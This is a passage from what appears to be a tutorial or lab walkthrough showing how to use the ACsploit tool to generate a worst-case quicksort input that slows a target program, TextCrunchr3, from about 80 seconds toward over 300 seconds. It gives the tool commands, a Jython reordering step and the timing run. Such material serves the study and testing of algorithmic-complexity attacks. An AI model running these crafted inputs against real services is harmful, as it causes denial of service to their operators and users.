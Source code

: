 ![Test](images/test_runtime.png)

This actually takes much longer than what we observed in Jython. As it turns out, `TextCrunchr3` performs more than one analysis on the input, which amplifies the effect of our payload.

However, we are still only at 80 seconds. To increase the runtime, we can double the number of inputs generated to 20000. We know quick sort is O( n^2 ) in the worst case. We expect the runtime to increase by roughly a factor of 4, from 80 seconds to over 300 seconds.
Let's generate a larger list with ACsploit and save it as qsort2.txt:

```
use sort/quicksort
set exploit.type lomuto
set exploit.n_inputs 20000
set input.max_length 4
set output file
set output.filename qsort2.txt
run
```

First run the above script with ACsploit, then use Jython to reorder the input to account for the changingSort function:

`jython reverse_shuffle.py qsort2.txt malicious2.txt`

Finally, we try our new input against `TextCrunchr3` and see if our solution has worked:

`time textcrunchrhost_1 malicious2.txt`

![Success](images/success_runtime.png)

Success!

